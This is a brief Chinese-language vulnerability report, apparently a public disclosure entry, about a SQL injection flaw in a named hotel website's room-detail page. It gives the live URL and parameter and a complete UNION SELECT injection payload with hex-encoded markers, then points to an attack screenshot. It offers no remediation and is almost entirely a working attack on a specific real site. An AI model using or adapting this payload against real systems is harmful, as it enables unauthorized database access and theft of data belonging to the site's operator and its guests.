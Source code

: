 #EMBRYO酒店网站存在SQL注入漏洞 漏洞出现:http://www.embryohotel.com/room-detail.php?id=1 Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

攻击截图:![attack](IMG_1.png)
